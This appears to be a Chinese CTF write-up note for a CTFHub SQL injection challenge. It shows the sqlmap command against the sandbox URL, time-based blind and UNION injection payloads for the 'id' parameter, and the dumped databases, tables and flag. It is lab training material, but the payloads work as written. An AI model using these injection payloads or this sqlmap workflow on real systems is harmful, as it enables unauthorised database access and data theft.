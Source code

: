 ```yaml
---
title: 报错型sql注入
date: 2024-11-15T20:06:19Z
lastmod: 2024-11-15T20:11:13Z
---
```


# 报错型[sql注入](sql注入.md)

```shell
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 6031 FROM (SELECT(SLEEP(5)))HxQg) AND 'TYVz'='TYVz

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-6758' UNION ALL SELECT NULL,CONCAT(0x71716b6271,0x6b4f427268554c41585a6c62706e70755161624c684e6b574950737365477945575762454c567758,0x71627a6a71)-- -
---
```

```shell
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli

```

​`sqlmap -u "http://challenge-68616053fb31adea.sandbox.ctfhub.com:10800/?id=1"  `​

‍

```shell
Database: sqli
[2 tables]
+------+
| flag |
| news |
+------+
```

```shell
Database: sqli
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(100) |
+--------+--------------+
```

```shell
Database: sqli
Table: flag
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{d6d7550c0c1cf1fc939bb395} |
+----------------------------------+
```

‍
